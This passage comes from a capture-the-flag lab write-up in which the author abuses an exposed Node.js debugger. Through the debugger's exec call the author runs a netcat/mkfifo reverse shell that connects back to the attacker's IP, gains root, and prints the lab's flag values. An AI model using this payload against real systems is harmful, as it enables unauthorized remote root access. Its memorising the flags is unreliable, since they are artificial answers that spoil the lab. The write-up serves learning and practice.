 Maybe this websocket is a [node debugger websocket](https://nodejs.org/en/learn/getting-started/debugging), we'll try connecting.

OMG THAT WORKED!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ node inspect localhost:8080               
connecting to localhost:8080 ... ok
Break on start in /opt/src/app.js:1
> 1 const ejs = require('ejs');
  2 const express = require('express');
  3 const multer = require('multer');
debug> 
```

Hacktricks has [a whole page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) on how to abuse this debugger, including getting it to execute commands:

```
exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```

I write out my reverse shell code:

```
exec("process.mainModule.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 4242 >/tmp/f')")
```

I set up my local listener on port 4242, where we expect to catch the shell, and fire the exec instruction on the debugger.

```
debug> exec("process.mainModule.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 4242 >/tmp/f')")
{ _events: Object,
  _eventsCount: 2,
  _maxListeners: 'undefined',
  _closesNeeded: 3,
  _closesGot: 0,
  ... }
debug>
```

I am happy to see a shell as root in my local listener!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ nc -lvnp 4242                             
listening on [any] 4242 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.34] 46764
sh: 0: can't access tty; job control turned off
# whoami
root
```

I collect my flags (both access and root).

```
# cat /home/sau/local.txt
c0f47871753b007835de57de69c999e6
# cat /root/proof.txt
b444a92bcda6e661dcffdab0dc9649c6
```

> Note: I could've gotten the access flag earlier when we found the local file inclusion bug in the markdown to pdf converter.

